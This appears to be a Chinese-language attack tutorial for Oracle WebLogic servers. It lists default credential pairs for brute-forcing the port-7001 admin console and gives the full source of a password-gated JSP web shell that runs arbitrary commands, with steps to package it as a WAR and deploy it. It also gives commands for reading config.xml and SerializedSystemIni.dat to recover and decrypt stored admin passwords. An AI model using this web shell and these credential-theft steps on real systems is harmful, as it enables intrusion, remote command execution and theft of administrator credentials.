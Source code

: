 密码爆破上传war进行shell。
访问ip:7001/console为登录后台：
常见用户名和密码组合：
```
system
weblogic
admin
joe
mary
wlcsystem
wlpisysytem
```
```
password
weblogic
security
Oracle@123   
//{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k=

oracle@123
wlcsystem
wlpisystem
```
搭配
```
system:password 
weblogic:weblogic 
admin:secruity 
joe:password 
mary:password 
system:sercurity 
wlcsystem: wlcsystem 
weblogic:Oracle@123
```
爆破登录后点部署-安装，上载文件，安装war包
默认安装在/root/Oracle/Middleware/user_projects/domains/base_domain/目录
打war包:
```
1. jsp压缩成zip，改后缀为war


2. java命令中：jar -cvf shell.war shell.jsp
```
shell.jsp:
```
<% if("x".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1;
    byte[] b = new byte[2048];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
        out.println(new String(b));
    }
    out.print("</pre>");
} %>

```
可以访问/shell/shell.jsp?pwd=x&i=ls /执行shell命令并回显。

读登录账号和加密密码等:
cat config/config.xml
cat /root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml
如密码：{AES}yvGnizbUS0lga6iPA5LkrQdImFiS/DJ8Lw/yeE7Dt0k=


读加密的密钥：
cat security/SerializedSystemIni.dat
cat /root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
是二进制文件
使用BP右键下载响应体为文件。
使用工具上传dat和密文进行解密。